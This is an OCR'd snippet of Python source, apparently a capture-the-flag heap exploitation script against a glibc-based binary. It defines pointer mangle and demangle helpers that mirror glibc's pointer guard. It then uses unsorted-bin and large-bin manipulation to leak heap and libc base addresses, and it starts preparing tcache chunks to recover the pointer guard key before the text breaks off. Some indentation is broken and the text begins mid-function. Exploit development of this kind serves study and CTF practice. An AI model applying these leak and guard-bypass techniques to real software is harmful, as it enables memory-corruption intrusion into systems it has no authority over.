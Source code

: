 ```
  if (number & 1) == 0:
    number = number >> 1
  else:
    number = (number >> 1) | 0x8000000000000000
  return number

def shift_left_carry(number: int, shift_amount: int) -> int:
  for i in range(shift_amount):
  if ((number & 0x8000000000000000) != 0):
    number = ((number << 1) & 0xffffffffffffffff) | 0x1
  else:
    number = ((number << 1) & 0xffffffffffffffff)
  return number

def mangle_instruction_ptr(ins_ptr: int, key: int) -> int:
  mangled_ptr = ins_ptr ^ key
  mangled_ptr = shift_left_carry(mangled_ptr, 0x11)
  return mangled_ptr

def demangle_instruction_ptr(mangled_ins_ptr: int, key: int) -> int:
  demangled_ptr = shift_right_carry(mangled_ins_ptr, 0x11)
  demangled_ptr = demangled_ptr ^ key
  return demangled_ptr

# So first off, we need ot get our libc / heak infoleak

# Allocate the chunks for it
allocate_new_chunk(0x410, 0)
allocate_new_chunk(0x80, 1)
allocate_new_chunk(0x410, 2)
allocate_new_chunk(0x80, 3)

# Free two chunks, insert them into the unsorted bin
free_chunk(0)
free_chunk(2)

# Allocate a chunk, to move the two chunks over to large bin
allocate_new_chunk(0x500, 4)

# Get the heap / libc infoleaks

leak_heap_bytes = view_chunk(0)
leak_libc_bytes = view_chunk(2)

leak_heap = u64(leak_heap_bytes + b"\x00"*(8-len(leak_heap_bytes)))
leak_libc = u64(leak_libc_bytes + b"\x00"*(8-len(leak_libc_bytes)))

heap_base = leak_heap - 0x1b60
libc_base = leak_libc - 0x22d0f0

print("Heap Base: " + hex(heap_base))
print("Libc Base: " + hex(libc_base))

# Next up, let's figure out the __pointer_chk_guard_local key

# First we will need the `_dl_fini` address
# Let's allocate a tcache chunk, to leak a `ld.so` address

# Allocate two tcache bin chunks
allocate_new_chunk(0xa0, 5)
allocate_new_chunk(0xa0, 6)

# Insert them into the tcache
```